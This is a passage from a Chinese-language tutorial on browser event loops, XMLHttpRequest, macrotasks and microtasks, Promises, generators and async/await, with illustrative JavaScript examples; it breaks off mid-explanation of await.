上面的回调方法有个特点，就是回调函数 callback 是在主函数 doWork 返回之前执行的，这个回调过程被称为**同步回调**。下面再来看看异步回调的例子：

```js
let callback = function () {
  console.log('i am do homework');
};
function doWork(cb) {
  console.log('start do work');
  setTimeout(cb, 1000);
  console.log('end do work');
}
doWork(callback);
```

在这个例子中，使用了 setTimeout 函数让 callback 在 doWork 函数执行结束后，又延时了 1 秒再执行，这次 callback 并没有在主函数 doWork 内部被调用，这种回调函数在主函数外部执行的过程被称为**异步回调**。

站在消息循环的视角再来看看同步回调和异步回调的区别。理解了这些，可以从本质上理解什么是回调。

浏览器页面是通过事件循环机制来驱动的，每个渲染进程都有一个消息队列，页面主线程按照顺序来执行消息队列中的事件，如执行 JS 事件、解析 DOM 事件、计算布局事件、用户输入事件等等，如果页面有新的事件产生，那新的事件将会追加到事件队列的尾部。所以可以说是**消息队列和主线程循环机制保证了页面有条不紊地运行**。

这里还需要补充一点，那就是当循环系统在执行一个任务的时候，都要为这个任务维护一个**系统调用栈**。这个系统调用栈类似于 JS 的调用栈，只不过系统调用栈是 Chromium 的开发语言 C++ 来维护的。其完整的调用栈信息你可以通过 chrome://tracing/ 来抓取。也可以通过 Performance 来抓取它核心的调用信息：


这幅图记录了一个 Parse HTML 的任务执行过程，其中黄色的条目表示执行 JS 的过程，其他颜色的条目表示浏览器内部系统的执行过程。

通过该图可以看出来，Parse HTML 任务在执行过程中会遇到一系列的子过程，比如在解析页面的过程中遇到了 JS 脚本，那么就暂停解析过程去执行该脚本，等执行完成之后，再恢复解析过程。然后又遇到了样式表，这时候又开始解析样式表……直到整个任务执行完成。

需要说明的是，整个 Parse HTML 是一个完整的任务，在执行过程中的脚本解析、样式表解析都是该任务的子过程，其下拉的长条就是执行过程中调用栈的信息。

每个任务在执行过程中都有自己的调用栈，那么同步回调就是在当前主函数的上下文中执行回调函数。下面主要来看看异步回调过程，异步回调是指回调函数在主函数之外执行，一般有两种方式：

- 把异步函数做成一个任务，添加到信息队列尾部。
- 把异步函数添加到微任务队列中，这样就可以在当前任务的末尾处执行微任务了。

#### 5.3.2 XMLHttpRequest 运作机制


这是 XMLHttpRequest 的总执行流程图，下面来分析从发起请求到接收数据的完整流程。先从 XMLHttpRequest 的用法开始：

```js
function GetWebData(URL) {
  /**
   * 1:新建XMLHttpRequest请求对象
   */
  let xhr = new XMLHttpRequest();

  /**
   * 2:注册相关事件回调处理函数
   */
  xhr.onreadystatechange = function () {
    switch (xhr.readyState) {
      case 0: //请求未初始化
        console.log('请求未初始化');
        break;
      case 1: //OPENED
        console.log('OPENED');
        break;
      case 2: //HEADERS_RECEIVED
        console.log('HEADERS_RECEIVED');
        break;
      case 3: //LOADING
        console.log('LOADING');
        break;
      case 4: //DONE
        if (this.status == 200 || this.status == 304) {
          console.log(this.responseText);
        }
        console.log('DONE');
        break;
    }
  };

  xhr.ontimeout = function (e) {
    console.log('ontimeout');
  };
  xhr.onerror = function (e) {
    console.log('onerror');
  };

  /**
   * 3:打开请求
   */
  xhr.open('Get', URL, true); //创建一个Get请求,采用异步

  /**
   * 4:配置参数
   */
  xhr.timeout = 3000; //设置xhr请求的超时时间
  xhr.responseType = 'text'; //设置响应返回的数据格式
  xhr.setRequestHeader('X_TEST', 'time.geekbang');

  /**
   * 5:发送请求
   */
  xhr.send();
}
```

上面是一段利用了 XMLHttpRequest 来请求数据的代码，再结合上面的流程图，可以分析下这段代码是怎么执行的：

1. **创建 XMLHttpRequest 对象**
   当执行到 `let xhr = new XMLHttpRequest()` 后，JS 会创建一个 XMLHttpRequest 对象 xhr，用来执行实际的网络请求操作。

2. **为 xhr 对象注册回调函数**
   因为网络请求比较耗时，所以要注册回调函数，这样后台任务执行完成之后就会通过调用回调函数来告诉其执行结果。XMLHttpRequest 的回调函数主要有下面几种：

   - ontimeout：用来监控超时请求，如果后台请求超时了，该函数会被调用；
   - onerror：用来监控出错信息，如果后台请求出错了，该函数会被调用；
   - onreadystatechange：用来监控后台请求过程中的状态，比如可以监控到 HTTP 头加载完成的消息、HTTP 响应体消息以及数据加载完成的消息等。

3. **配置基础的请求信息**

   注册好回调事件之后，接下来就需要配置基础的请求信息了，首先要通过 open 接口配置一些基础的请求信息，包括请求的地址、请求方法（是 get 还是 post）和请求方式（同步还是异步请求）。

   然后通过 xhr 内部属性类配置一些其他可选的请求信息，可以通过 `xhr.responseType = "text"` 来配置服务器返回的格式，将服务器返回的数据自动转换为自己想要的格式。

   如果还需要添加专用的请求头属性，可以通过 `xhr.setRequestHeader` 来添加。

4. **发起请求**

   一切准备就绪之后，就可以调用 xhr.send 来发起网络请求了。对照上面那张请求流程图，可以看到：渲染进程会将请求发送给网络进程，然后网络进程负责资源的下载，等网络进程接收到数据之后，就会利用 IPC 来通知渲染进程；渲染进程接收到消息之后，会将 xhr 的回调函数封装成任务并添加到消息队列中，等主线程循环系统执行到该任务的时候，就会根据相关的状态来调用对应的回调函数。

   - 如果网络请求出错了，就会执行 xhr.onerror；
   - 如果超时了，就会执行 xhr.ontimeout；
   - 如果是正常的数据接收，就会执行 onreadystatechange 来反馈相应的状态。

#### 5.3.3 XMLHttpRequest 使用过程中的 “坑”

上述过程看似简单，但由于浏览器很多安全策略的限制，所以会导致在使用过程中踩到非常多的 “坑”。浏览器安全问题是前端工程师避不开的一道坎，通常在使用过程中遇到的 “坑”，很大一部分都是由安全策略引起的：

1. **跨域问题**

   比如在极客邦的官网使用 XMLHttpRequest 请求极客时间的页面内容，由于极客邦的官网是 www.geekbang.org，极客时间的官网是 time.geekbang.org，它们不是同一个源，所以就涉及到了跨域（在 A 站点中去访问不同源的 B 站点的内容）。默认情况下，跨域请求是不被允许的。

2. **HTTPS 混合内容的问题**

   HTTPS 混合内容是 HTTPS 页面中包含了不符合 HTTPS 安全要求的内容，比如包含了 HTTP 资源，通过 HTTP 加载的图像、视频、样式表、脚本等，都属于混合内容。

   通常，如果 HTTPS 请求页面中使用混合内容，浏览器会针对 HTTPS 混合内容显示警告，用来向用户表明此 HTTPS 页面包含不安全的资源。

   通过 HTML 文件加载的混合资源，虽然给出警告，但大部分类型还是能加载的。而使用 XMLHttpRequest 请求时，浏览器认为这种请求可能是攻击者发起的，会阻止此类危险的请求。

### 5.4 宏任务和微任务

#### 5.4.1 宏任务

页面中的大部分任务都是在主线程上执行的，这些任务包括了：

- 渲染事件（如解析 DOM、计算布局、绘制）
- 用户交互事件（如鼠标点击、滚动页面、放大缩小等）
- JS 脚本执行事件
- 网络请求完成、文件读写完成事件

为了协调这些任务有条不紊地在主线程上执行，页面进程引入了消息队列和事件循环机制，渲染进程内部会维护多个消息队列，比如延迟执行队列和普通的消息队列。然后主线程采用一个 for 循环，不断地从这些任务队列中取出任务并执行任务。这些消息队列中的任务被称为**宏任务**。

消息队列中的任务是通过事件循环系统来执行的，这里可以看看在 [WHATWG 规范](https://html.spec.whatwg.org/multipage/webappapis.html#event-loop-processing-model)中是怎么定义事件循环机制的：

1. 从多个消息队列中选出一个最老的任务，这个任务称为 oldestTask
2. 然后循环系统记录任务开始执行的时间，并把这个 oldestTask 设置为当前正在执行的任务
3. 当任务执行完成之后，删除当前正在执行的任务，并从对应的消息队列中删除掉这个 oldestTask
4. 最后统计执行完成的时长等信息

宏任务可以满足大部分的日常需求，不过如果有对时间精度要求较高的需求，宏任务就难以胜任了，下面分析下为什么宏任务难以满足对时间精度要求较高的任务。

页面的渲染事件、各种 IO 的完成事件、执行 JS 脚本的事件、用户交互的事件等都随时有可能被添加到消息队列中，而且添加事件是由系统操作的，JS 代码不能准确掌控任务要添加到队列中的位置，控制不了任务在消息队列中的位置，所以很难控制开始执行任务的时间。

#### 5.4.2 微任务

一开始浏览器是由消息队列和事件循环系统统筹的，但随着浏览器的应用领域越来越广泛，消息队列中这种粗时间颗粒度的任务已经不能胜任部分领域的需求，所以又出现了一种新的技术——**微任务。微任务可以在实时性和效率之间做一个有效的权衡**。

从目前的情况来看，微任务已经被广泛地应用，基于微任务的技术有 MutationObserver、Promise 以及以 Promise 为基础开发出来的很多其他的技术。所以微任务的重要性也与日俱增。

首先需要知道异步回调的概念，其主要有两种方式：

- 把异步回调函数封装成一个宏任务，添加到消息队列尾部，当循环系统执行到该任务的时候执行回调函数。这种比较好理解，setTimeout 和 XMLHttpRequest 的回调函数都是通过这种方式来实现的。

- 执行时机是在主函数执行结束之后、当前宏任务结束之前执行回调函数，这通常都是以微任务形式体现的。

**微任务就是一个需要异步执行的函数，执行时机是在主函数执行结束之后、当前宏任务结束之前**。下面从 V8 引擎的层面来分析下微任务系统是怎么运转起来的。

JS 执行一段脚本的时候，V8 会为其创建一个全局执行上下文，在创建全局执行上下文的同时，V8 引擎也会在内部创建一个**微任务队列**。顾名思义，这个微任务队列就是用来存放微任务的，因为在当前宏任务执行的过程中，有时候会产生多个微任务，这时候就需要使用这个微任务队列来保存这些微任务了。不过这个微任务队列是给 V8 引擎内部使用的，所以是无法通过 JS 直接访问的。也就是说每个宏任务都关联了一个微任务队列。那么接下来，就需要分析两个重要的时间点——微任务产生的时机和执行微任务队列的时机。

在现代浏览器里面，产生微任务有两种方式：

- 使用 MutationObserver 监控某个 DOM 节点，然后再通过 JS 来修改这个节点，或者为这个节点添加、删除部分子节点，当 DOM 节点发生变化时，就会产生 DOM 变化记录的微任务。

- 使用 Promise，当调用 Promise.resolve() 或者 Promise.reject() 的时候，也会产生微任务。

通常情况下，在当前宏任务中的 JS 快执行完成时，也就在 JS 引擎准备退出全局执行上下文并清空调用栈的时候，JS 引擎会检查全局执行上下文中的微任务队列，然后按照顺序执行队列中的微任务。**WHATWG 把执行微任务的时间点称为检查点**。当然除了在退出全局执行上下文式这个检查点之外，还有其他的检查点，不过不是太重要。

如果在执行微任务的过程中，产生了新的微任务，同样会将该微任务添加到微任务队列中，V8 引擎一直循环执行微任务队列中的任务，直到队列为空才算执行结束。也就是说**在执行微任务过程中产生的新的微任务并不会推迟到下个宏任务中执行，而是在当前的宏任务中继续执行**。


该示意图是在执行一个 ParseHTML 的宏任务，在执行过程中，遇到了 JS 脚本，那么就暂停解析流程，进入到 JS 的执行环境。从图中可以看到，全局上下文中包含了微任务列表。

在 JS 脚本的后续执行过程中，分别通过 Promise 和 removeChild 创建了两个微任务，并被添加到微任务列表中。接着 JS 执行结束，准备退出全局执行上下文，这时候就到了检查点了，JS 引擎会检查微任务列表，发现微任务列表中有微任务，那么接下来，依次执行这两个微任务。等微任务队列清空之后，就退出全局执行上下文。

以上就是微任务的工作流程，从上面分析可以得出如下几个结论：

- 微任务和宏任务是绑定的，每个宏任务在执行时，会创建自己的微任务队列。
- 微任务的执行时长会影响到当前宏任务的时长。比如一个宏任务在执行过程中，产生了 100 个微任务，执行每个微任务的时间是 10 毫秒，那么执行这 100 个微任务的时间就是 1000 毫秒，也可以说这 100 个微任务让宏任务的执行时间延长了 1000 毫秒。所以在写代码的时候一定要注意控制微任务的执行时长。
- 在一个宏任务中，分别创建一个用于回调的宏任务和微任务，无论什么情况下，微任务都早于宏任务执行。

#### 5.4.3 监听 DOM 变化方法演变

MutationObserver 是用来监听 DOM 变化的一套方法，而监听 DOM 变化一直是前端工程师一项非常核心的需求。

比如许多 Web 应用都利用 HTML 与 JS 构建其自定义控件，与一些内置控件不同，这些控件不是固有的。为了与内置控件一起良好地工作，这些控件必须能够适应内容更改、响应事件和用户交互。因此，Web 应用需要监视 DOM 变化并及时地做出响应。

虽然监听 DOM 的需求是如此重要，不过早期页面并没有提供对监听的支持，所以那时要观察 DOM 是否变化，唯一能做的就是轮询检测比如使用 setTimeout 或者 setInterval 来定时检测 DOM 是否有改变。这种方式简单粗暴，但是会遇到两个问题：如果时间间隔设置过长，DOM 变化响应不够及时；反过来如果时间间隔设置过短，又会浪费很多无用的工作量去检查 DOM，会让页面变得低效。

直到 2000 年的时候引入了 Mutation Event，Mutation Event 采用了**观察者的设计模式**，当 DOM 有变动时就会立刻触发相应的事件，这种方式属于同步回调。

采用 Mutation Event 解决了实时性的问题，因为 DOM 一旦发生变化，就会立即调用 JS 接口。但也正是这种实时性造成了严重的性能问题，因为每次 DOM 变动，渲染引擎都会去调用 JS，这样会产生较大的性能开销。比如利用 JS 动态创建或动态修改 50 个节点内容，就会触发 50 次回调，而且每个回调函数都需要一定的执行时间，这里假设每次回调的执行时间是 4 毫秒，那么 50 次回调的执行时间就是 200 毫秒，若此时浏览器正在执行一个动画效果，由于 Mutation Event 触发回调事件，就会导致动画的卡顿。也正是因为使用 Mutation Event 会导致页面性能问题，所以 Mutation Event 被反对使用，并逐步从 Web 标准事件中删除了。

为了解决了 Mutation Event 由于同步调用 JS 而造成的性能问题，从 DOM4 开始，推荐使用 MutationObserver 来代替 Mutation Event。MutationObserver API 可以用来监视 DOM 的变化，包括属性的变化、节点的增减、内容的变化等。

相比较 Mutation Event，MutationObserver 做了以下改进：

- MutationObserver 将响应函数改成异步调用，可以不用在每次 DOM 变化都触发异步调用，而是等多次 DOM 变化后，**一次触发异步调用**，并且还会使用一个数据结构来记录这期间所有的 DOM 变化。这样即使频繁地操纵 DOM，也不会对性能造成太大的影响。

- 在每次 DOM 节点发生变化的时候，渲染引擎将变化记录封装成微任务，并将微任务添加进当前的微任务队列中。这样当执行到检查点的时候，V8 引擎就会按照顺序执行微任务了。这样就保持了消息通知的及时性。

综上所述， MutationObserver 采用了 “异步 + 微任务” 的策略：

- 通过**异步**操作解决了同步操作的**性能问题**。
- 通过**微任务**解决了**实时性的问题**。

### 5.5 Promise

DOM/BOM API 中新加入的 API 大多数都是建立在 Promise 上的，而且新的前端框架也使用了大量的 Promise。**Promise 解决的是异步编码风格的问题**，而不是一些其他的问题。

#### 5.5.1 异步编程的问题：代码逻辑不连续


上图展示的是一个标准的异步编程模型，页面主线程发起了一个耗时的任务，并将任务交给另外一个进程去处理，这时页面主线程会继续执行消息队列中的任务。等该进程处理完这个任务后，会将该任务添加到渲染进程的消息队列中，并排队等待循环系统的处理。排队结束之后，循环系统会取出消息队列中的任务进行处理，并触发相关的回调操作。这就是页面编程的一大特点：**异步回调**。

**Web 页面的单线程架构决定了异步回调，而异步回调影响到了编码方式**。假设有一个下载的需求，使用 XMLHttpRequest 来实现：

```js
//执行状态
function onResolve(response) {
  console.log(response);
}
function onReject(error) {
  console.log(error);
}

let xhr = new XMLHttpRequest();
xhr.ontimeout = function (e) {
  onReject(e);
};
xhr.onerror = function (e) {
  onReject(e);
};
xhr.onreadystatechange = function () {
  onResolve(xhr.response);
};

//设置请求类型，请求URL，是否同步信息
let URL = 'https://time.geekbang.com';
xhr.open('Get', URL, true);

//设置参数
xhr.timeout = 3000; //设置xhr请求的超时时间
xhr.responseType = 'text'; //设置响应返回的数据格式
xhr.setRequestHeader('X_TEST', 'time.geekbang');

//发出请求
xhr.send();
```

执行上面这段代码，可以正常输出结果的。但是，这短短的一段代码里面竟然出现了五次回调，这么多的回调会导致代码的逻辑不连贯、不线性，非常不符合人的直觉，这就是异步回调影响编码方式。

#### 5.5.2 封装异步代码，让处理流程变得线性

可以封装上面的代码，降低处理异步回调的次数。由于重点关注的是**输入内容（请求信息）和输出内容（回复信息）**，至于中间的异步请求过程，不想在代码里面体现太多，因为这会干扰核心的代码逻辑。整体思路如下图所示：


从图中可以看到，将 XMLHttpRequest 请求过程的代码封装起来了，重点关注输入数据和输出结果。那就按照这个思路来改造代码。首先，把输入的 HTTP 请求信息全部保存到一个 request 的结构中，包括请求地址、请求头、请求方式、引用地址、同步请求还是异步请求、安全设置等信息。request 结构如下所示：

```js
//makeRequest用来构造request对象
function makeRequest(request_url) {
  let request = {
    method: 'Get',
    url: request_url,
    headers: '',
    body: '',
    credentials: false,
    sync: true,
    responseType: 'text',
    referrer: ''
  };
  return request;
}
```

然后就可以封装请求过程了，这里将所有的请求细节封装进 XFetch 函数，XFetch 代码如下所示：

```js
//[in] request，请求信息，请求头，延时值，返回类型等
//[out] resolve, 执行成功，回调该函数
//[out] reject  执行失败，回调该函数
function XFetch(request, resolve, reject) {
  let xhr = new XMLHttpRequest();
  xhr.ontimeout = function (e) {
    reject(e);
  };
  xhr.onerror = function (e) {
    reject(e);
  };
  xhr.onreadystatechange = function () {
    if ((xhr.status = 200)) resolve(xhr.response);
  };
  xhr.open(request.method, URL, request.sync);
  xhr.timeout = request.timeout;
  xhr.responseType = request.responseType;
  //补充其他请求信息
  //...
  xhr.send();
}
```

这个 XFetch 函数需要一个 request 作为输入，然后还需要两个回调函数 resolve 和 reject，当请求成功时回调 resolve 函数，当请求出现问题时回调 reject 函数。有了这些后，就可以来实现业务代码了，具体的实现方式如下所示：

```js
XFetch(
  makeRequest('https://time.geekbang.org'),
  function resolve(data) {
    console.log(data);
  },
  function reject(e) {
    console.log(e);
  }
);
```

#### 5.5.3 新的问题：回调地狱

上面的示例代码已经比较符合人的线性思维了，但在稍微复杂点的项目中，就会发现，如果嵌套了太多的回调函数就很容易陷入回调地狱。

```js
XFetch(makeRequest('https://time.geekbang.org/?category'),
      function resolve(response) {
          console.log(response)
          XFetch(makeRequest('https://time.geekbang.org/column'),
              function resolve(response) {
                  console.log(response)
                  XFetch(makeRequest('https://time.geekbang.org')
                      function resolve(response) {
                          console.log(response)
                      }, function reject(e) {
                          console.log(e)
                      })
              }, function reject(e) {
                  console.log(e)
              })
      }, function reject(e) {
          console.log(e)
      })
```

这段代码之所以看上去很乱，归结其原因有两点：

- **嵌套调用**，下面的任务依赖上个任务的请求结果，并在上个任务的回调函数内部执行新的业务逻辑，这样当嵌套层次多了之后，代码的可读性就变得非常差了。

- **任务的不确定性**，执行每个任务都有两种可能的结果（成功或者失败），所以体现在代码中就需要对每个任务的执行结果做两次判断，这种对每个任务都要进行一次额外的错误处理的方式，明显增加了代码的混乱程度。

原因分析出来后，那么问题的解决思路就很清晰了：

- **消灭嵌套调用**
- **合并多个任务的错误处理**

#### 5.5.4 Promise：消灭嵌套调用和多次错误处理

首先，使用 Promise 来重构 XFetch 的代码，示例代码如下所示：

```js
function XFetch(request) {
  function executor(resolve, reject) {
    let xhr = new XMLHttpRequest();
    xhr.open('GET', request.url, true);
    xhr.ontimeout = function (e) {
      reject(e);
    };
    xhr.onerror = function (e) {
      reject(e);
    };
    xhr.onreadystatechange = function () {
      if (this.readyState === 4) {
        if (this.status === 200) {
          resolve(this.responseText, this);
        } else {
          let error = {
            code: this.status,
            response: this.response
          };
          reject(error, this);
        }
      }
    };
    xhr.send();
  }
  return new Promise(executor);
}
```

接下来，再利用 XFetch 来构造请求流程，代码如下：

```js
var x1 = XFetch(makeRequest('https://time.geekbang.org/?category'));
var x2 = x1.then(value => {
  console.log(value);
  return XFetch(makeRequest('https://www.geekbang.org/column'));
});
var x3 = x2.then(value => {
  console.log(value);
  return XFetch(makeRequest('https://time.geekbang.org'));
});
x3.catch(error => {
  console.log(error);
});
```

- 首先引入了 Promise，在调用 XFetch 时，会返回一个 Promise 对象。

- 构建 Promise 对象时，需要传入一个 executor 函数，XFetch 的主要业务流程都在 executor 函数中执行。

- 如果运行在 executor 函数中的业务执行成功了，会调用 resolve 函数；如果执行失败了，则调用 reject 函数。

- 在 executor 函数中调用 resolve 函数时，会触发 promise.then 设置的回调函数；而调用 reject 函数时，会触发 promise.catch 设置的回调函数。

产生嵌套函数的一个主要原因是在发起任务请求时会带上回调函数，这样当任务处理结束之后，下个任务就只能在回调函数中来处理了。Promise **主要通过下面两步解决嵌套回调问题**的：

- 首先，**Promise 实现了回调函数的延时绑定**。回调函数的延时绑定在代码上体现就是先创建 Promise 对象 x1，通过 Promise 的构造函数 executor 来执行业务逻辑；创建好 Promise 对象 x1 之后，再使用 x1.then 来设置回调函数。

- 其次，需要**将回调函数 onResolve 的返回值穿透到最外层**。因为会根据 onResolve 函数的传入值来决定创建什么类型的 Promise 任务，创建好的 Promise 对象需要返回到最外层，这样就可以摆脱嵌套循环了：

  

**Promise 对象的错误具有 “冒泡” 性质**，会一直向后传递，直到被 onReject 函数处理或 catch 语句捕获为止。具备了这样 “冒泡” 的特性后，就不需要在每个 Promise 对象中单独捕获异常了，可以使用最后一个对象来捕获所有异常。

#### 5.5.5 Promise 与微任务

```js
function executor(resolve, reject) {
  resolve(100);
}
let demo = new Promise(executor);

function onResolve(value) {
  console.log(value);
}
demo.then(onResolve);
```

对于上面这段代码，需要重点关注下它的执行顺序：

首先执行 new Promise 时，Promise 的构造函数会被执行，不过由于 Promise 是 V8 引擎提供的，所以暂时看不到 Promise 构造函数的细节。

接下来，Promise 的构造函数会调用 Promise 的参数 executor 函数。然后在 executor 中执行了 resolve，resolve 函数也是在 V8 内部实现的，执行 resolve 函数，会触发 demo.then 设置的回调函数 onResolve，所以可以推测，resolve 函数内部调用了通过 demo.then 设置的 onResolve 函数。

> **注意**：由于 Promise 采用了回调函数延迟绑定技术，所以在执行 resolve 函数的时候，回调函数还没有绑定，那么只能推迟回调函数的执行。

下面来模拟实现一个 Promise，会实现它的构造函数、resolve 方法以及 then 方法，以方便看清楚 Promise 的背后都发生了什么。这里把这个对象称为 Bromise：

```js
function Bromise(executor) {
  var onResolve_ = null;
  var onReject_ = null;
  // 模拟实现 resolve 和 then，暂不支持 reject
  this.then = function (onResolve, onReject) {
    onResolve_ = onResolve;
  };
  function resolve(value) {
    //setTimeout(()=>{
    onResolve_(value);
    // },0)
  }
  executor(resolve, null);
}
```

观察上面这段代码，实现了构造函数、resolve、then 方法。接下来使用 Bromise 来实现业务代码，实现后的代码如下所示：

```js
function executor(resolve, reject) {
  resolve(100);
}
// 将 Promise 改成 Bromise
let demo = new Bromise(executor);

function onResolve(value) {
  console.log(value);
}
demo.then(onResolve);
```

执行这段代码，发现执行出错，输出的内容是：

```txt
Uncaught TypeError: onResolve_ is not a function
    at resolve (<anonymous>:10:13)
    at executor (<anonymous>:17:5)
    at new Bromise (<anonymous>:13:5)
    at <anonymous>:19:12
```

之所以出现这个错误，是由于 Bromise 的延迟绑定导致的，在调用到 `onResolve_` 函数的时候，Bromise.then 还没有执行，所以执行上述代码的时候，当然会报“onResolve_is not a function” 的错误了。

也正是因为此，所以要改造 Bromise 中的 resolve 方法，让 resolve 延迟调用 `onResolve_`。要让 resolve 中的 `onResolve_` 函数延后执行，可以在 resolve 函数里面加上一个定时器，让其延时执行 `onResolve_` 函数：

```js
function resolve(value) {
  setTimeout(() => {
    onResolve_(value);
  }, 0);
}
```

上面采用了定时器来推迟 onResolve 的执行，不过使用定时器的效率并不是太高，好在有微任务，所以 Promise 又把这个定时器改造成了微任务了，这样既可以让 `onResolve_` 延时被调用，又提升了代码的执行效率。这就是 Promise 中使用微任务的原由了。

### 5.6 JS 引擎是如何实现 async/await

```js
fetch('https://www.geekbang.org')
  .then(response => {
    console.log(response);
    return fetch('https://www.geekbang.org/test');
  })
  .then(response => {
    console.log(response);
  })
  .catch(error => {
    console.log(error);
  });
```

从这段 Promise 代码可以看出来，使用 promise.then 也是相当复杂，虽然整个请求流程已经线性化了，但是代码里面包含了大量的 then 函数，使得代码依然不是太容易阅读。**基于这个原因，ES7 引入了 async/await，这是 JS 异步编程的一个重大改进，提供了在不阻塞主线程的情况下使用同步代码实现异步访问资源的能力，并且使得代码逻辑更加清晰**。可以参考下面这段代码：

```js
async function foo() {
  try {
    let response1 = await fetch('https://www.geekbang.org');
    console.log('response1');
    console.log(response1);
    let response2 = await fetch('https://www.geekbang.org/test');
    console.log('response2');
    console.log(response2);
  } catch (err) {
    console.error(err);
  }
}
foo();
```

通过上面代码，会发现整个异步处理的逻辑都是使用同步代码的方式来实现的，而且还支持 try catch 来捕获异常，这就是完全在写同步代码，所以是非常符合人的线性思维的。但这中间隐藏了一些容易让人迷惑的细节。

首先介绍**生成器**（Generator）是如何工作的，接着讲解 Generator 的底层实现机制——**协程**（Coroutine）；又因为 async/await 使用了 Generator 和 Promise 两种技术，所以紧接着就通过 Generator 和 Promise 来分析 async/await 到底是如何以同步的方式来编写异步代码的。

#### 5.6.1 生成器 VS 协程

**生成器**函数是一个带星号函数，而且是可以暂停执行和恢复执行的：

```js
function* genDemo() {
  console.log('开始执行第一段');
  yield 'generator 2';

  console.log('开始执行第二段');
  yield 'generator 2';

  console.log('开始执行第三段');
  yield 'generator 2';

  console.log('执行结束');
  return 'generator 2';
}

console.log('main 0');
let gen = genDemo();
console.log(gen.next().value);
console.log('main 1');
console.log(gen.next().value);
console.log('main 2');
console.log(gen.next().value);
console.log('main 3');
console.log(gen.next().value);
console.log('main 4');
```

执行上面这段代码，观察输出结果，会发现函数 genDemo 并不是一次执行完的，全局代码和 genDemo 函数交替执行。这就是生成器函数的特性，**可以暂停执行，也可以恢复执行**。生成器函数的具体使用方式：

1. 在生成器函数内部执行一段代码，如果遇到 `yield` 关键字，那么 JS 引擎将返回关键字后面的内容给外部，并暂停该函数的执行。

2. 外部函数可以通过 `next()` 方法恢复函数的执行。

**V8 引擎如何实现一个函数的暂停和恢复**
要搞懂函数为何能暂停和恢复，首先要了解协程的概念。**协程是一种比线程更加轻量级的存在**。可以把协程看成是跑在线程上的任务，一个线程上可以存在多个协程，但是在线程上同时只能执行一个协程，比如当前执行的是 A 协程，要启动 B 协程，那么 A 协程就需要将主线程的控制权交给 B 协程，这就体现在 A 协程暂停执行，B 协程恢复执行；同样，也可以从 B 协程中启动 A 协程。通常，**如果从 A 协程启动 B 协程，就把 A 协程称为 B 协程的父协程**。

最重要的是，**协程不是被操作系统内核所管理，而完全是由程序所控制**（也就是在用户态执行）。这样带来的好处就是性能得到了很大的提升，不会像线程切换那样消耗资源。


从图中可以看出来协程的四点规则：

1. 通过调用生成器函数 genDemo 来创建一个协程 gen，创建之后，gen 协程并没有立即执行。
2. 要让 gen 协程执行，需要通过调用 gen.next。
3. 当协程正在执行的时候，可以通过 `yield` 关键字来暂停 gen 协程的执行，并返回主要信息给父协程。
4. 如果协程在执行期间，遇到了 `return` 关键字，那么 JS 引擎会结束当前协程，并将 return 后面的内容返回给父协程。

父协程有自己的调用栈，gen 协程时也有自己的调用栈，当 gen 协程通过 yield 把控制权交给父协程时，V8 是如何切换到父协程的调用栈？当父协程通过 gen.next 恢复 gen 协程时，又是如何切换 gen 协程的调用栈：

- gen 协程和父协程是在主线程上交互执行的，并不是并发执行的，它们之前的切换是通过 yield 和 gen.next 来配合完成的。
- 当在 gen 协程中调用了 `yield` 方法时，JS 引擎会保存 gen 协程当前的调用栈信息，并恢复父协程的调用栈信息。同样，当在父协程中执行 gen.next 时，JS 引擎会保存父协程的调用栈信息，并恢复 gen 协程的调用栈信息。


其实**在 JS 中，生成器就是协程的一种实现方式**，使用生成器和 Promise 来改造开头的那段 Promise 代码：

```js
// foo函数
function* foo() {
  let response1 = yield fetch('https://www.geekbang.org');
  console.log('response1');
  console.log(response1);
  let response2 = yield fetch('https://www.geekbang.org/test');
  console.log('response2');
  console.log(response2);
}

// 执行foo函数的代码
let gen = foo();
function getGenPromise(gen) {
  return gen.next().value;
}

getGenPromise(gen)
  .then(response => {
    console.log('response1');
    console.log(response);
    return getGenPromise(gen);
  })
  .then(response => {
    console.log('response2');
    console.log(response);
  });
```

foo 函数是一个生成器函数，在 foo 函数里面实现了用同步代码形式来实现异步操作；但是在 foo 函数外部，还需要写一段执行 foo 函数的代码，如上述代码的后半部分所示：

- 首先执行的是 let gen = foo()，创建了 gen 协程。
- 然后在父协程中通过执行 gen.next 把主线程的控制权交给 gen 协程。
- gen 协程获取到主线程的控制权后，就调用 fetch 函数创建了一个 Promise 对象 response1，然后通过 yield 暂停 gen 协程的执行，并将 response1 返回给父协程。
- 父协程恢复执行后，调用 response1.then 方法等待请求结果。
- 等通过 fetch 发起的请求完成之后，会调用 then 中的回调函数，then 中的回调函数拿到结果之后，通过调用 gen.next 放弃主线程的控制权，将控制权交 gen 协程继续执行下个请求。

以上就是协程和 Promise 相互配合执行的一个大致流程。不过通常把执行生成器的代码封装成一个函数，并把这个执行生成器代码的函数称为**执行器**（可参考著名的 co 框架），如下面这种方式：

```js
function* foo() {
  let response1 = yield fetch('https://www.geekbang.org');
  console.log('response1');
  console.log(response1);
  let response2 = yield fetch('https://www.geekbang.org/test');
  console.log('response2');
  console.log(response2);
}
co(foo());
```

通过使用生成器配合执行器，就能实现使用同步的方式写出异步代码了，这样也大大加强了代码的可读性。

#### 5.6.2 async/await

虽然生成器已经能很好地满足需求了，但又在 ES7 中引入了 async/await，这种方式能够彻底告别执行器和生成器，实现更加直观简洁的代码。其实 async/await 技术背后的秘密就是 Promise 和生成器应用，往低层说就是微任务和协程应用。要搞清楚 async 和 await 的工作原理，就得对 async 和 await 分开分析。

1. **async**
   async 是一个通过异步执行并隐式返回 Promise 作为结果的函数。对 async 函数的理解，这里需要重点关注两个词：**异步执行**和**隐式返回 Promise**。

   先来看看是如何隐式返回 Promise 的，可以参考下面的代码：

   ```js
   async function foo() {
     return 2;
   }
   // 执行这段代码，可以看到调用 async 声明的 foo 函数返回了一个 Promise 对象，状态是 resolved
   console.log(foo()); // Promise {<resolved>: 2}
   ```

2. **await**

   ```js
   async function foo() {
     console.log(1);
     let a = await 100;
     console.log(a);
     console.log(2);
   }
   console.log(0);
   foo();
   console.log(3);
   ```

   

   结合上图，分析下 async/await 的执行流程：

   1. 首先，执行 console.log(0) 这个语句，打印出来 0。
   2. 紧接着执行 foo 函数，由于 foo 函数是被 async 标记过的，所以当进入该函数的时候，JS 引擎会保存当前的调用栈等信息，然后执行 foo 函数中的 console.log(1)语句，并打印出 1。
   3. 接下来执行 foo 函数中的 await 100 这个语句，这里是分析的**重点**，因为在执行 await 100 这个语句时，JS 引擎在背后默默做了太多的事情。

      当执行到 await 100 时，会默认创建一个 Promise 对象，代码如下所示：

      ```js
      let promise_ = new Promise((resolve,reject){
        resolve(100)
      })
      ```

